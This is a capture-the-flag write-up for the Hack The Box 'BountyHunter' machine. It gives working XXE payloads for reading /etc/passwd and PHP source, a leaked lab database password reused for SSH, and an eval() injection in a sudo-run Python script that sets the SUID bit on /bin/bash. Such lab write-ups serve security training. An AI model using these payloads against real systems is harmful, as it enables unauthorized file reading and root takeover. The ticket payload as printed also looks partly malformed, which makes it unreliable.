 ```yaml
---
title: Bounty Hunter Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```



## Enumeration

```ruby
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 3072 41 d44cf5799a79a3b0f1662552c9531fe1 (RSA)
|_ 256 a21e67618d2f7a37a7ba3b5108e889a6 (ECDSA)
|_ 256 a57516d96958504a14117a42c1b62344 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploit

Investigating the page, we find the section `/log_submit.php`, which if we intercept the data sent with Burpsuite we see that they are sent in XML format but encoded in base 64
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test0</title>
		<cwe>test1</cwe>
		<cvss>test2</cvss>
		<reward>test2</reward>
		</bugreport>
```

So we can inject an XXE to view the /etc/passwd in Base64 format and then URL-Encoded:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test1</cwe>
		<cvss>test2</cvss>
		<reward>test2</reward>
		</bugreport>
```

We tried to list `.ssh/id_rsa` but we can't either. 

Investigating a bit more through the web page, we find `log_submit.php`. However, since we are dealing with Php, we are going to use a different wrapper:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=log_submit.php"> ]>
```

This will report it to us in base64, so let's decode it using `base64 -d `.  Unfortunately, this doesn't give us much information either... 

Let's apply a wfuzz to see if we find any more .php files:

```shell
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,php http://10.129.166.240/FUZZ.FUZ2Z/
```

But neither.

However, applying `dirsearch` we see a file called `db.php`, which we are going to try to read its content through the php wrapper in the XML code:
We decode it and see that we report the following information:

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test."
?>
```

we use the user `development` extracted from /etc/passwd along with the password `m19RoAU0hP41A1sTsq6K` to connect via SSH and succeed.
## Root Exploit

Doing sudo -l we can run the following python script as root using python 3.8:

`/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`.

So let's look into it.

```python
#Skytrain Inc Ticket Validation System 0.1
#`Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f "Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

As you can see, the script has an `eval()` function which we have to get to, since we can inject malicious command in it.

Therefore, let's create a file that ends in .md by injecting the following code into it:
```python
## Skytrain Inc --> 1st if
## Ticket to --> 2nd if
Ticket Code:__Ticket Code:__ # --> 3rd If
** 11+2 and __import__('os').system('chmod u+s /bin/bash') # --> 4th if where we insert the malicious code 
```

if everything works fine, doing `/bin/bash -p` will make us root and we will be able to send the root.txt flag.
